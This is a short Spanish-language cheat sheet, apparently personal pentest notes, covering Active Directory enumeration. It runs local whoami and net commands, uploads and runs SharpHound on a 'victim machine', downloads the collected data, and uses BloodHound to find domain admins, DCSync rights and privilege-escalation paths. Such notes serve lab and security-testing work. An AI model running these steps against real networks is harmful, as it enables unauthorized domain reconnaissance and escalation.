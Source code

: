 ## AD LOCAL ENUM
```bash
whoami /priv
whoami /all
net group
net user
```

## BLOODHOUND INSTALL
```bash
apt install neo4j bloodhound
update-alternatives --config java
# SELECCIONAR JAVA-11
```

## BLOODHOUND ENUM
```bash
# MÁQUINA ATACANTE
wget https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip
mkdir SharpHound
cd SharpHound
mv ~/Descargas/SharpHound-v1.1.0.zip .
unzip SharpHound-v1.1.0.zip

# MÁQUINA VÍCTIMA
cd C:\Windows\Temp
mkdir privs
cd privs
upload /opt/BloodHound-linux-x64/SharpHound.exe
.\SharpHound.exe -c All
download C:\Windows\Temp\privs\20220718205025_BloodHound.zip bloodhound.zip

# BLOODHOUND
neo4j console &>/dev/null & disown
bloodhound &>/dev/null & disown
# INGRESAR CREDENCIALES DE ACCESO

# SEGUIR SECUENCIA EN BLOODHOUND
> Upload Data > bloodhound.zip > Analysis > Find all domain admins
										  > Find Principals with DCSync Rights > Domain
# ENUMERAR GRUPOS
Buscar Shared support accounts> node info > Reachable High Value Targets

# MARCAR USUARIOS PWNED
Buscar user > mark user as owned										  

# ESCALAMIENTO
Node info > Reachable High Value Targets
```
